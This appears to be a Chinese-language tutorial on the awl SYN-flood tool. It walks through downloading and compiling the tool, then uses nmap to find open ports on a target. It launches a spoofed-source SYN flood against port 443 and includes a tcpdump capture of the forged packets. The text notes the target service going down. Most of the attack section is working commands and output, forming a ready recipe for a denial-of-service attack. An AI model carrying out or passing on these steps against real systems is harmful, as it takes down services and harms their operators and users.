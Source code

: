 awl攻击
############

linux下awl 多线程SYN攻击工具,加了MAC伪装

::

    awl -i eth0 .......

syn洪水攻击， 伪装ip ，服务端收到的都是syn_recv状态的连接。

参考地址： http://blog.51cto.com/zhangxz/1431148


一,安装:
===============



::

    wget http://soft.alv.pub:180/linux/51CTO%CF%C2%D4%D8-awl-0.2.tar_vhcFaEwRuq7S.gz

    tar -zxvf awl-0.2.tar.gz
    yum install gcc gcc-c++ -y
    ./configure
    make
    make install

awl的执行程序安装后在/usr/local/bin/目录下

二,说明:
==============


awl 的格式如下:

::

    ./awl -i eth0 -m aa:bb:cc:dd:ee:ff -d ip -p port

（本地安装在我的jenkins机器上）
参数如下:

-i  发送包的接口,如果省略默认是eth0
-m  被攻击机器的mac地址,程序不能根据被攻击IP得到MAC,需要手工指定.先ping 目标IP,再arp -a就可以看到.如果省略则为ff:ff:ff:ff:ff:ff
-d  被攻击机器的IP
-p  被攻击机器的端口.

三,测试,
===============


服务器端:centOS 5.0

对方服务器:freebsd   6.2   运行apache

1,首先得知对方IP
------------------------------

运行nmap -v -A 192.168.0.1   查看对方开了啥服务

::

    [root@localhost bin]# nmap -v -A 10.122.89.106

    Starting Nmap 4.11 ( http://www.insecure.org/nmap/ ) at 2008-06-02 19:24 CST
    DNS resolution of 1 IPs took 0.39s.
    Initiating SYN Stealth Scan against 10.122.89.106 [1680 ports] at 19:24
    Discovered open port 21/tcp on 10.122.89.106
    Discovered open port 25/tcp on 10.122.89.106
    Discovered open port 22/tcp on 10.122.89.106
    Discovered open port 443/tcp on 10.122.89.106
    Discovered open port 80/tcp on 10.122.89.106
    Discovered open port 199/tcp on 10.122.89.106
    Discovered open port 110/tcp on 10.122.89.106
    Discovered open port 143/tcp on 10.122.89.106
    Discovered open port 3306/tcp on 10.122.89.106

得知对方开了如上端口

ping 192.168.0.1   得知mac地址

查看arp -a 得知对方IP的MAC地址

2.开始攻击:
-----------------------

::

    ./awl -i eth0 -m aa:bb:cc:dd:ee:ff -d 192.168.0.1 -p 443

ping 192.168.0.1 -t 查下对方反应

四,测试效果
=================

攻击一开始,对方明显挂掉,各种应用无反应,
如下是抓包:

::

    [root@localhost ~]# tcpdump
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on eth0, link-type EN10MB (Ethernet), capture size 96 bytes
    19:26:10.765001 IP 196.224.129.69.58334 > 10.122.82.169.https: S 2137366997:2137366997(0) win 57403
    19:26:13.835951 IP 221.140.165.45.45259 > 10.122.82.169.https: S 2020705765:2020705765(0) win 28443
    19:26:14.379435 IP 108.99.168.18.63871 > 10.122.82.169.https: S 1625298749:1625298749(0) win 23981
    19:26:14.917676 IP 141.90.214.98.34527 > 10.122.82.169.https: S 697113617:697113617(0) win 48400
    19:26:15.645562 IP 111-104.dsl.sky.cz.33734 > 10.122.82.169.https: S 1620903624:1620903624(0) win 34262
    19:26:16.396435 IP 135.205.163.109.59589 > 10.122.82.169.https: S 1747490631:1747490631(0) win 40348
